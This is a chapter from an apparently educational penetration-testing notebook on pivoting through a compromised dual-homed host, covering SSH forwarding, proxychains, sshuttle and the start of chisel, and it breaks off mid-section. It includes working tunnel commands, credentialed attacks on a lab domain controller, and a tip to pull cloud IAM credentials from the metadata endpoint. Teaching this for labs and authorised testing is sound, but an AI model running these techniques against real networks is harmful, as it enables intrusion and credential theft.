








This is Chapter 8 of the Network Attacks notebook. The previous chapters put you on the wire — sniffing, spoofing, poisoning and relaying to turn traffic on a segment into a foothold. This chapter answers the question that comes the instant you have that foothold: *how do I reach everything the compromised host can reach, but I can't?* That is pivoting, and it is the difference between "I popped one box" and "I moved through the whole environment."

Almost every real internal network is segmented. Your foothold is rarely the goal — it is a door into networks you had no route to from where you started. A dual-homed web server sits on both a DMZ (`172.16.5.0/24`, reachable from your Kali) and an internal VLAN (`10.10.20.0/24`, completely unreachable from Kali). The domain controller, the file servers, the databases — all of them live on `10.10.20.0/24`. Pivoting is how you push your scanners, your `netexec`, your `impacket` tools, and eventually your exploits *through* that web server and into the network behind it, as if your Kali box had grown a second leg on the internal VLAN.

We will build the mental model first (routing, forwarding, SOCKS, TUN), then teach each tool from zero — SSH forwarding, proxychains, sshuttle, chisel, ligolo-ng, Metasploit autoroute, and Windows-native `netsh portproxy` — and finish with a full worked double-pivot lab and a detection/defense part. Everything here is for authorised engagements and your own lab only; pivoting is post-exploitation, and post-exploitation without written authorisation is a crime in essentially every jurisdiction.

## Why This Matters

A penetration test that stops at the perimeter host is worth a fraction of one that reaches the crown jewels. The exploitation you did to get a shell is the *beginning*. Pivoting is the connective tissue of the entire post-exploitation phase:

- **Lateral movement** — you cracked a hash in the previous chapter with Responder/ntlmrelayx; those credentials are useless if you cannot *reach* the SMB and LDAP services on the internal VLAN. A pivot makes them reachable.
- **Deeper enumeration** — `nmap`, `netexec`, `enum4linux-ng`, `ldapsearch`, `mssqlclient.py` all need IP reachability to the internal targets. A pivot gives your Kali-hosted tools that reachability without uploading a single scanner to the victim.
- **Reaching air-gapped-from-you assets** — management interfaces, iLO/iDRAC, database subnets, and OT/ICS networks are almost always behind at least one segmentation boundary. The only path is through a host that straddles both.

**Bug bounty relevance:** pivoting proper is rare in web bounties (you usually don't get a shell), but the *tunneling primitives* here are exactly what you use for **blind SSRF exploitation** and for reaching internal-only services after an RCE on a cloud VM — a Chisel reverse SOCKS from a popped EC2 box lets you hit `169.254.169.254` and internal ELBs from your laptop. **CTF relevance is enormous:** HackTheBox Pro Labs (Dante, Offshore, RastaLabs), the OSCP exam's internal network, and countless THM rooms are *built* around multi-hop pivoting. If you cannot pivot cleanly, you cannot finish them.

By the end you should be able to look at a compromised dual-homed host and instantly choose the right tool: SSH ProxyJump when you have creds and SSH, Chisel when egress is filtered to HTTP only, ligolo-ng when you want a whole subnet routable with native tooling, and sshuttle when you just want a quick VPN-like route and have Python on the target.

## Part 1: What a Pivot Actually Is — Routing vs Forwarding vs Proxying

Before any tool, get the packet-level model right, because every tool in this chapter is just a different way of solving the same problem: **your attacker box has no route to the target network, but the compromised host does.**

Consider the topology:

```
[ Kali 172.16.5.10 ] --- DMZ 172.16.5.0/24 --- [ WebSrv ] --- Internal 10.10.20.0/24 --- [ DC 10.10.20.5 ]
                                                 eth0: 172.16.5.20
                                                 eth1: 10.10.20.20
```

Kali can talk to `172.16.5.20` (the web server's DMZ leg). Kali has **no route** to `10.10.20.0/24` — packets to `10.10.20.5` either get dropped by Kali's own routing table (no route) or by a firewall between the two segments. The web server, however, sits on both networks. It *can* talk to the DC. The entire discipline of pivoting is: **make the web server carry your traffic to `10.10.20.5` and carry the replies back.**

There are three fundamentally different mechanisms to do this, and confusing them is the number-one beginner mistake:



**1. Port forwarding (a single TCP conduit).** You bind a port on one side and everything that hits it is shovelled to one `host:port` on the other side. `ssh -L 8080:10.10.20.5:80` makes `localhost:8080` on Kali equal `10.10.20.5:80` via the SSH session. Simple, but each forward is *one destination*. To scan a whole subnet you'd need thousands of forwards — impractical. Good for "I know exactly the one service I want" (e.g. exposing an internal web app or an RDP host).

**2. SOCKS proxying (application-level, many destinations).** A SOCKS proxy is a generic TCP (and, for SOCKS5, UDP) relay: your client tells the proxy "connect me to `10.10.20.5:445`" and the proxy does it. One SOCKS listener gives you *every* host and port on the far side — but only for tools that can be *made* to speak through a proxy. That's what `proxychains` is for: it hijacks the `connect()` syscall of any dynamically-linked program and redirects it through the SOCKS proxy. Downsides: TCP-connect scans only (no SYN/UDP), no ICMP, and per-connection overhead.

**3. Layer-3 tunneling (a real route / VPN-like).** Here the pivot presents a virtual network interface (a **TUN** device) on your attacker box. You add a route: "send `10.10.20.0/24` out `ligolo`/`tun0`." Now the kernel routes those packets and *any* tool works natively — real `nmap -sS`, ICMP ping, UDP, full stacks — with no `proxychains` wrapper. This is `sshuttle` and `ligolo-ng`. It's the most powerful and the most convenient, at the cost of needing to create a TUN interface (root on the attacker side).

Keep this table in your head — it is the decision framework for the whole chapter:

| Mechanism | Tool examples | Scope | Protocols | Needs proxychains? | Native `nmap -sS`? |
|-----------|---------------|-------|-----------|--------------------|--------------------|
| Local port forward | `ssh -L`, `netsh portproxy` | 1 dest host:port | TCP | No | No |
| Remote port forward | `ssh -R`, `chisel client R:` | 1 dest (reverse) | TCP | No | No |
| Dynamic / SOCKS | `ssh -D`, `chisel socks`, msf `socks_proxy` | Whole far side | TCP (+UDP w/ SOCKS5) | Yes | No (connect-scan only) |
| Layer-3 TUN | `sshuttle`, `ligolo-ng` | Whole subnet(s) | TCP/UDP/ICMP | No | Yes |

**Forward vs reverse — the second axis.** Independent of the three mechanisms above is the *direction the tunnel is established*:

- **Forward / bind (local)**: you connect *from Kali into* the victim (e.g. `ssh -L` from Kali to the web server). Requires the victim to have an inbound-reachable service (SSH open, or you can reach it). Works when the DMZ host accepts inbound.
- **Reverse (remote)**: the *victim connects back out to you*. You run a listener on Kali; the implant on the victim dials home. This is essential when the victim can't accept inbound connections (NAT, ingress firewall) but *can* make outbound connections — which is the common real-world case. Chisel, ligolo-ng, and `ssh -R` all support reverse mode.

**Red team reality:** almost everything on a modern engagement is *reverse*, because egress is far more permissive than ingress. A compromised internal workstation can't be reached inbound from your redirector, but it can happily make an outbound HTTPS connection that carries your reverse SOCKS tunnel. Keep the forward/reverse distinction separate from the port-forward/SOCKS/TUN distinction — they combine (e.g. "reverse SOCKS," "reverse TUN").

## Part 2: The Lab Topology We'll Use Throughout

To make every command concrete, we use one consistent lab. Reproduce it with three VMs (or use an equivalent HTB/THM network):



- **Kali** `172.16.5.10` — your attacker box. Can reach only `172.16.5.0/24`.
- **WebSrv** — dual-homed Ubuntu. `eth0 172.16.5.20` (DMZ, reachable from Kali), `eth1 10.10.20.20` (internal). You have already gained a foothold here (say, an RCE giving `www-data`, later escalated to a user with SSH, per earlier chapters).
- **DC** `10.10.20.5` — Windows domain controller, SMB/LDAP/RDP. Only reachable *through* WebSrv.
- **DB** `10.10.20.10` — MSSQL on 1433, only reachable through WebSrv.
- **Hidden host** `10.10.30.30` — reachable only from the DC, not from WebSrv. This is our **double-pivot** target: Kali → WebSrv → DC → hidden host.

We'll prove reachability at each step so you can see the pivot working, not just take it on faith. First, confirm Kali cannot reach the internal net:

```bash
$ ip route get 10.10.20.5
RTNETLINK answers: Network is unreachable
$ nmap -Pn -p445 10.10.20.5
Starting Nmap 7.94 ( https://nmap.org )
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up)
```

Unreachable — exactly the starting condition every pivot solves.

## Part 3: SSH Tunneling From Scratch — Local, Remote, Dynamic, ProxyJump

SSH is the oldest and most reliable pivoting tool, and it's already installed everywhere. If your foothold gives you SSH access (a cracked password, a stolen key, or you added your key to `authorized_keys`), you often need nothing else. SSH's forwarding features are the conceptual foundation for every other tool in this chapter, so learn them cold.

### The tool: OpenSSH client forwarding flags

`ssh` has three forwarding modes, controlled by three flags. All three keep the SSH session open; the forward exists only while the session lives (add `-N` to *not* run a remote command, `-f` to background, `-T` to skip a TTY):

| Flag | Name | Meaning | Direction |
|------|------|---------|-----------|
| `-L [bind:]lport:dhost:dport` | Local forward | Bind a local port on the SSH *client*, forward to `dhost:dport` reachable from the *server* | Kali → into victim |
| `-R [bind:]rport:dhost:dport` | Remote forward | Bind a port on the SSH *server*, forward to `dhost:dport` reachable from the *client* | Victim → back to Kali |
| `-D [bind:]lport` | Dynamic (SOCKS) | Open a SOCKS4/5 proxy on the client; every connection is routed via the server | Kali → whole far side |

#### Local forward (`-L`) — expose one internal service on Kali

You have SSH creds to WebSrv (`pivot:PivotPass123`). You want to reach the DC's SMB (`10.10.20.5:445`) from Kali. Local-forward it:

```bash
$ ssh -N -L 4455:10.10.20.5:445 pivot@172.16.5.20
pivot@172.16.5.20's password:
# (session sits open, no shell because of -N)
```

Now on Kali, `localhost:4455` *is* `10.10.20.5:445`:

```bash
$ nmap -Pn -sT -p4455 127.0.0.1
PORT     STATE SERVICE
4455/tcp open  microsoft-ds
$ netexec smb 127.0.0.1 --port 4455 -u administrator -p 'Passw0rd!'
SMB  127.0.0.1  4455  DC  [*] Windows Server 2019 Build 17763 x64 (name:DC) (domain:corp.local)
SMB  127.0.0.1  4455  DC  [+] corp.local\administrator:Passw0rd! (Pwn3d!)
```

**Explaining every part of `-L 4455:10.10.20.5:445`:** `4455` = the port SSH binds on *Kali* (localhost only by default). `10.10.20.5` = the destination, resolved *from the WebSrv's perspective*. `445` = destination port. The chain of custody: your packet hits `127.0.0.1:4455` on Kali → travels the encrypted SSH channel → WebSrv opens a fresh TCP connection to `10.10.20.5:445` → relays bytes both ways.

To make the forward reachable by *other* machines (or by tools that dislike `127.0.0.1`), bind all interfaces: `-L 0.0.0.0:4455:10.10.20.5:445` (and ensure `GatewayPorts` isn't blocking for `-R`). Be careful — `0.0.0.0` exposes the tunnel to your whole attacker LAN.

#### Remote forward (`-R`) — when the victim must dial back to you

Suppose you *don't* have inbound SSH to the victim, but you have a shell on it and it can reach *you*. Run an SSH client *from the victim* back to a listener you control. This binds a port on **your** box (the SSH server side is you) that maps to something reachable from the victim:

```bash
# On the victim (WebSrv), dial back to Kali's SSH server, exposing the DC's RDP on Kali:5985
victim$ ssh -N -R 3389:10.10.20.5:3389 kaliuser@172.16.5.10
```

Now `127.0.0.1:3389` on Kali reaches the DC's RDP through the victim. `-R` is the "reverse" cousin: the *server end* (here, Kali) hosts the bound port. This is how you pivot when ingress to the victim is blocked but egress to you is allowed. (You need an SSH *server* running on Kali: `sudo systemctl start ssh`.)

#### Dynamic forward (`-D`) — one SOCKS proxy for the whole far side

`-L` is one destination. `-D` turns SSH into a **SOCKS proxy**: any tool that speaks SOCKS (or is wrapped by proxychains) can reach *anything* the victim can:

```bash
$ ssh -N -D 1080 pivot@172.16.5.20
# 1080 is now a SOCKS5 proxy tunnelling through WebSrv into 10.10.20.0/24
```

Point proxychains (Part 4) or a SOCKS-aware client at `127.0.0.1:1080` and you have the whole internal network. This single command is often all a pivot needs.

#### ProxyJump (`-J`) — chaining SSH hops cleanly

To reach a host that is only reachable *through* another SSH host, older tutorials use ugly nested `ssh -o ProxyCommand`. Modern OpenSSH gives you `-J`:

```bash
# SSH to the DB server (10.10.20.10) by jumping through WebSrv, in one command
$ ssh -J pivot@172.16.5.20 dbadmin@10.10.20.10
```

`-J` can chain multiple hops: `-J user1@hop1,user2@hop2`. Under the hood it sets up the intermediate forwards automatically. For repeatable engagements, put it in `~/.ssh/config`:

```
Host webpivot
    HostName 172.16.5.20
    User pivot

Host dc
    HostName 10.10.20.5
    User administrator
    ProxyJump webpivot
```

Then simply `ssh dc`. **Blue team usage:** these SSH sessions are logged — `sshd` records the auth, and any SIEM watching for a single host opening SSH sessions to many internal hosts (fan-out) will flag it. We'll return to this in Part 12.

### SSH pivoting flow, visualised



**Pitfall:** SSH forwarding is disabled on hardened servers via `AllowTcpForwarding no` in `sshd_config`. If your `-L`/`-D` silently fails with "channel setup failed: administratively prohibited," that's why — fall back to Chisel or ligolo (Parts 6–7), which don't need SSH's cooperation.

## Part 4: proxychains — Forcing Any Tool Through a SOCKS Proxy

A SOCKS proxy is useless to a tool that doesn't know how to use one. `nmap`, `netexec`, `smbclient`, `impacket` scripts — most don't take a `--socks` flag. **proxychains** solves this by hooking the `connect()` (and DNS) libc calls of any dynamically-linked binary and redirecting them through your proxy. It's the glue between "I have a SOCKS proxy" and "my whole toolkit works through it."

### The tool: proxychains / proxychains-ng from scratch

There are two implementations. The original `proxychains` is largely unmaintained; **`proxychains-ng` (proxychains4)** is the modern fork and what you should use — it fixes threading bugs and adds `proxy_dns` improvements. On Kali:

```bash
$ sudo apt update && sudo apt install -y proxychains4
$ which proxychains4 proxychains
/usr/bin/proxychains4
/usr/bin/proxychains        # often a symlink to proxychains4 on Kali
```

**How it works internally:** proxychains uses `LD_PRELOAD` to inject `libproxychains4.so` ahead of libc. When your program calls `connect(fd, sockaddr)`, the shim intercepts it, and instead of connecting directly, it performs the SOCKS handshake to your proxy and asks *it* to make the real connection. Because it's `LD_PRELOAD`-based, it **only works on dynamically-linked programs** — statically-linked Go binaries (like some builds of `nuclei`) may ignore it entirely. That's a frequent gotcha.

### Configuration: /etc/proxychains4.conf

Global config is `/etc/proxychains4.conf`; you can also keep a per-engagement copy and pass it with `-f`. The three settings that matter:

```conf
# /etc/proxychains4.conf

# --- Chaining mode: pick exactly one ---
strict_chain      # use proxies in listed order; ALL must be up (best for a known single/double pivot)
# dynamic_chain   # skip dead proxies, use remaining in order (resilient to a down hop)
# random_chain    # random order/subset — for evasion, rarely for pivoting

# --- DNS handling (critical!) ---
proxy_dns          # resolve hostnames THROUGH the proxy (so internal names resolve on the far side)
# remote DNS uses this fake range so leaks are obvious:
remote_dns_subnet 224

# per-hop timeouts (ms) — raise these on slow tunnels or nmap will report false "closed"
tcp_read_time_out 15000
tcp_connect_time_out 8000

[ProxyList]
# type   host        port     [user pass]
socks5   127.0.0.1   1080
```

Explaining the key knobs:

- **`strict_chain` vs `dynamic_chain`**: strict fails if any proxy is down (use for a deterministic single pivot); dynamic skips dead ones (use when chaining several possibly-flaky hops). For most single pivots, either works; for **double pivots** with two SOCKS listeners in the list, `strict_chain` in the right order is what routes Kali → SOCKS-A → SOCKS-B.
- **`proxy_dns`**: without this, DNS lookups happen locally on Kali (which can't resolve `dc.corp.local`), leaking the query and failing. With it, name resolution goes over the tunnel. **This is the single most common reason "proxychains nmap by hostname" fails** — turn it on, and prefer IPs when you can.
- **timeouts**: tunnels add latency. The defaults are too aggressive; bump `tcp_read_time_out` to 15000 to stop nmap from mislabelling slow-but-open ports as filtered.

### Using it

Prefix any command with `proxychains4` (or `proxychains`). Combine with the `ssh -D 1080` from Part 3:

```bash
# Scan the internal DC through the SOCKS proxy — note -sT (connect scan) and -Pn are MANDATORY
$ proxychains4 nmap -sT -Pn -n -p 139,445,3389,5985 10.10.20.5
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains4.so
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.20.5:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.20.5:3389 ...  OK
Nmap scan report for 10.10.20.5
PORT     STATE SERVICE
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
5985/tcp open  wsman

# Enumerate SMB through the tunnel
$ proxychains4 netexec smb 10.10.20.5 -u administrator -p 'Passw0rd!' --shares
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.20.5:445  ...  OK
SMB  10.10.20.5  445  DC  [+] corp.local\administrator:Passw0rd! (Pwn3d!)

# Grab a shell via WinRM through the tunnel
$ proxychains4 evil-winrm -i 10.10.20.5 -u administrator -p 'Passw0rd!'
```

**The non-negotiable nmap rules through proxychains:**

- **`-sT` (TCP connect scan)** — a SOCKS proxy only relays full TCP connections; it cannot forward a half-open SYN. `-sS` (SYN scan) will *silently* produce garbage. Always `-sT`.
- **`-Pn`** — skip host discovery. ICMP ping can't traverse a SOCKS proxy, so nmap would mark every host "down" and skip it. `-Pn` forces it to scan anyway.
- **`-n`** — skip reverse DNS (avoid slow/leaky lookups).
- **Go slow and narrow** — high `-T` values overload the single TCP tunnel and cause dropped, misreported ports. Scan a *targeted* port list, not `-p-`, or expect very long runs. Consider `-T3` or lower.

| Symptom through proxychains | Cause | Fix |
|-----------------------------|-------|-----|
| Every port "filtered/closed" | Used `-sS` (SYN) | Use `-sT` |
| Every host "down," scan skipped | ICMP can't proxy | Add `-Pn` |
| Hostnames won't resolve | Local DNS can't see internal | Enable `proxy_dns`, or use IPs |
| Slow scans show false-closed ports | Timeouts too low | Raise `tcp_read_time_out` |
| Static Go binary ignores proxy | `LD_PRELOAD` can't hook it | Use ligolo/sshuttle (route-level) instead |

**Bug bounty / SSRF tie-in:** when you get RCE on a cloud box during a bounty, `ssh -R`/chisel a SOCKS back and `proxychains curl http://169.254.169.254/latest/meta-data/iam/security-credentials/` to loot IAM creds from your own laptop. The proxychains layer means every one of your familiar tools just works against internal-only endpoints.

## Part 5: sshuttle — The Poor Man's VPN

proxychains + SOCKS is powerful but clunky: you must remember `-sT -Pn`, DNS is fiddly, and no ICMP. **sshuttle** gives you something closer to a real VPN with almost no setup, using only SSH access and a Python interpreter on the target. It transparently routes chosen subnets over an SSH connection — no proxychains, no `-sT` gymnastics, native tools "just work" for TCP (and, with a flag, DNS).

### The tool: sshuttle from scratch

sshuttle is a Python program that runs on your attacker box. It SSHes to the pivot, uploads a small Python payload, and uses your local firewall (iptables/nftables/pf) to redirect traffic for the specified subnets into the SSH tunnel. It is *not* a full TUN VPN — it forwards TCP (and optionally DNS) by hijacking connections locally, so it needs **no root on the target**, only Python there and root on *your* box (to program the firewall).

Install and basic use:

```bash
$ sudo apt install -y sshuttle       # Kali/Debian
# or: pipx install sshuttle

# Route the whole internal subnet through the WebSrv pivot:
$ sudo sshuttle -r pivot@172.16.5.20 10.10.20.0/24
[local sudo] Password:
pivot@172.16.5.20's password:
c : Connected to server.
```

That's it. Now, with **no proxychains**, native tools reach the internal net:

```bash
$ nmap -sT -Pn -p445,3389 10.10.20.5     # works directly, no wrapper
$ netexec smb 10.10.20.5 -u administrator -p 'Passw0rd!'   # direct
$ smbclient -L //10.10.20.10 -U dbadmin  # direct
```

Explaining the useful flags:

| Flag | Purpose |
|------|---------|
| `-r user@host` | The SSH pivot to route through |
| `10.10.20.0/24` | Subnet(s) to route over the tunnel (list several) |
| `--dns` | Also route DNS queries through the pivot (resolve internal names) |
| `-x 10.10.20.20` | Exclude a host (e.g. the pivot itself) from being routed |
| `-v` / `-vv` | Verbosity — see exactly what's routed |
| `-N` | Auto-detect the pivot's subnets and route them (handy but noisy) |
| `--ssh-cmd 'ssh -i key'` | Use a specific key / SSH options |
| `--python /usr/bin/python3` | Force a specific remote interpreter path |

```bash
# Route two subnets plus DNS, using a key:
$ sudo sshuttle --dns -r pivot@172.16.5.20 --ssh-cmd 'ssh -i ./pivot.key' 10.10.20.0/24 10.10.30.0/24
```

**Why sshuttle is loved:** near-zero config, no proxychains, native tooling, still no root needed on the victim. **Its limits:** TCP + DNS only (no UDP payloads, no raw ICMP echo through it — `-sS` and `ping` still don't fully work), it needs Python on the target (increasingly common but not universal, and absent on most Windows victims), and it modifies *your* firewall (occasionally messy to tear down — Ctrl-C usually cleans up, but check `iptables -t nat -L` if routing feels stuck).

**Red team note:** sshuttle is easy and quiet-ish but leaves a Python process and an SSH session on the victim, and reroutes your local firewall — on a monitored jump host, the remote Python payload and long-lived SSH are detectable. It shines in CTF/OSCP-style engagements where you have SSH creds and just want to move fast. For adversary-simulation against a mature blue team, prefer a purpose-built implant (chisel/ligolo) with better opsec control.



## Part 6: chisel — Firewall-Piercing Reverse SOCKS Over HTTP/WebSocket

When there's no SSH on the pivot, when egress is filtered to only outbound HTTP(S), or when the victim can only *dial out*, SSH-based methods fail. **chisel** is the answer: a single self-contained Go binary (client and server in one) that builds a fast, encrypted tunnel over **HTTP/WebSocket**, which sails through most egress filters that allow web traffic. Its killer feature is **reverse SOCKS**: the victim connects *out* to your chisel server, and that connection carries a SOCKS proxy that *you* use from Kali — perfect for NAT'd, ingress-filtered internal hosts.

### The tool: chisel from scratch

chisel (by Jaime Pillora) is one Go binary that runs as either `server` or `client`. Because it's a static binary, you drop it on the victim with no dependencies — no Python, no SSH. Traffic is multiplexed over a single WebSocket connection and encrypted (SSH protocol inside the WebSocket), optionally with a shared `--auth` secret and TLS fingerprint pinning.

Get it on Kali (it's packaged, or grab a release):

```bash
$ sudo apt install -y chisel            # Kali repo, or:
# download matching linux_amd64 + windows_amd64 releases from the chisel GitHub releases page
$ chisel --version
1.9.1
```

You need the right binary for the victim's OS/arch (a Linux `www-data` gets `chisel_linux_amd64`; a Windows host gets `chisel.exe`). Serve it to the victim over your foothold (e.g. `python3 -m http.server` on Kali, `wget`/`certutil` on the victim).

### The core pattern: reverse SOCKS (victim dials home)

This is the pattern you'll use 90% of the time. **On Kali (the server, publicly reachable to the victim):**

```bash
